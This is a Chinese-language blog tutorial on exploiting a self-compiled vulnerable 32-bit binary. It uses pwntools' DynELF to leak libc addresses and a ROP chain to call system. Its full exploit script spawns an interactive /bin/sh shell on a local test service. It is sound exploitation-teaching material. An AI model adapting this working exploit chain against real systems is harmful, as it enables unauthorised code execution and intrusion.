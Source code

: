 ```yaml
---
layout: post
title: "[pwn] DynELF && ROP"
categories: "BinarySecurity"
---
```


#### 0x00 前言 ####

- 环境： kali 2016.2  32位
- 工具： pwntools peda

安全机制只开启了NX和ASLR，其他都关闭

	echo 2 > /proc/sys/kernel/randomized_va_space

	gcc -g -fno-stack-protector -o vul vul.c

vul.c的内容同[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)中使用的相同。

#### 0x01 漏洞利用 ####

在[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)我们介绍的ROP方法，是通过获取到程序使用的对应so文件，计算函数的偏移，再配合泄漏出一个函数的内存地址，可以计算出`system`的地址和`/bin/sh`的字符串地址，最后构造`ROP`获取`shell`

但是有些情况下我们并无法获取到程序所使用的`so`库文件，此时我们可以借用`pwntools`中提供的`DynELF`模块进行内存地址的爆破，前提是我们可以控制目标程序去泄漏内存地址(这个是关键)，漏洞的原理还是和[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)一样。

利用脚本的核心为：

<pre>e = DynELF(leak, elf=ELF('./vul'))   # 初始化DynELF模块</pre>

其中的leak为主要的暴力破解的函数

<pre>def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data</pre>

最后使用`lookup`来破解需要的函数地址

<pre>e.lookup('__libc_system', 'libc')</pre>


整合的利用脚本：

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')
p = remote('127.0.0.1', 10000)
elf = ELF('./vul')

# debug
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0])

payload_len = 140
write_plt_addr = elf.plt['write']
read_plt_addr = elf.plt['read']
main = elf.symbols['main']
print "[*] main address is " + hex(main)
vul_addr = elf.symbols['vul_func']
print "[*] vul_func address is " + hex(vul_addr)

def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('__libc_system', 'libc')
print "[+] Use DynELF to search system address is " + hex(system_addr)

buff_addr = elf.symbols['__bss_start']
pppr_addr = 0x080484d9  # pop esi ; pop edi ; pop ebp ; ret
exit_addr = 0xdeadbeef

payload2 = "A"*payload_len + p32(read_plt_addr) + p32(pppr_addr) + p32(0) + p32(buff_addr) + p32(8)
payload2 += p32(system_addr) + p32(exit_addr) + p32(buff_addr)

print "[*] Begin to get shell...\n"
p.send(payload2)
sleep(1)
p.send("/bin/sh\0")

p.interactive()</pre>

ps: 本地测试的时候，一直无法运行成功，后来发现原因是由于leak函数中`payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)`，`p32(main)`不能设置为`p32(vul_func)`,目前不太肯定到底是什么原因，个人猜测可能是涉及到堆栈的一些问题。

#### 0x02 总结 ####

这篇文章中只介绍了DynELF模块的基本使用方法，对于漏洞原理并没有过多的解释，可以通过[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)做深入理解。
